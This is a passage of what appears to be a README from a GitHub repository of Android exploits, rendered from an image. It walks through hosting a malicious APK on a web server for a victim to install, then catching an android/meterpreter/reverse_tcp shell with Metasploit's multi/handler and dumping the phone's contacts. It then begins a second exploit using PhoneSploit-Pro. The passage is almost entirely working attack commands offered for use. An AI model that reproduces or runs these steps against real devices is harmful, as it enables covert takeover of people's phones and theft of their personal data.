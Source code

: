 4. Move the Android payload to the Apache server directory:
    ```bash
    cp androidpayload.apk /var/www/html
    ```

5. Clean up server files:
    ```bash
    sudo rm -f index.html index.nginx-debian.html
    ```

6. Download the payload on an Android device:
    - Open a web browser on the Android device and navigate to `<ip address>`.
    - Download the androidpayload.apk file.

7. Install the .apk file on the Android device.

8. Launch Metasploit console:
    ```bash
    msfconsole
    ```

9. Configure the handler:
    ```bash
    use exploit/multi/handler
    set payload android/meterpreter/reverse_tcp
    set LHOST=<ip addr>
    set LPORT=<port number>
    show options
    ```

10. Execute the exploit:
    ```bash
    exploit
    ```

11. Once the session is connected, use the following commands:
    ```bash
    dump_contacts
    cat dump_contacts
    ```

## Exploit 6: PhoneSploit

This exploit demonstrates the use of PhoneSploit for exploiting Android devices.

### Steps:
1. Clone the PhoneSploit-Pro repository:
    ```bash
    git clone https://github.com/AzeemIdrisi/PhoneSploit-Pro
    ```

2. Navigate to the PhoneSploit-Pro directory:
    ```bash
    cd PhoneSploit-Pro
    ```
